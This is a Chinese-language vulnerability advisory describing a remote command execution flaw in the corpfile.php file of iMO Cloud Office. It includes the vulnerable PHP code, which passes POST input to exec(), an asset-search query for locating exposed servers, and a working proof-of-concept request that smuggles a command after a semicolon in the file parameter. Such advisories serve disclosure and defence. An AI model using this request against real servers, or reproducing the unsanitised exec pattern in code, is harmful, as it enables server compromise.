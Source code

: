 # imo 云办公室 corpfile.php 远程命令执行漏洞

## 漏洞描述

imo 云办公室 corpfile.php 文件中参数过滤不足，导致可以随意进行命令拼接，获取服务器权限

## 漏洞影响

<a-checkbox checked>imo 云办公室</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="iMO-云办公室"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1645878070559-eaed5393-f82d-4b08-8b95-54e91e5ceae0.png)

漏洞文件 corpfile.php

```javascript
<?php
define('DELETE_FAILED', '数据不存在，删除失败!');
define('DELETE_SUCCESS', '数据存在，删除成功!');
switch($_POST['type'])
{
  case 'corpLogo':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'userLogo':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('uid' => $_POST['uid'], 'user_account' => $_POST['user_account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'corpTemp':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'chatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'multiChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'groupChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'backChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;
}
```

验证POC

```javascript
POST /corpfile.php

type=corpLogo&command=id&file=;pwd>1.txt
```

![img](/assets/PeiQi-Wiki/img/1645881191090-fcf34136-bc53-4b37-8de8-e4ca535b750a.png)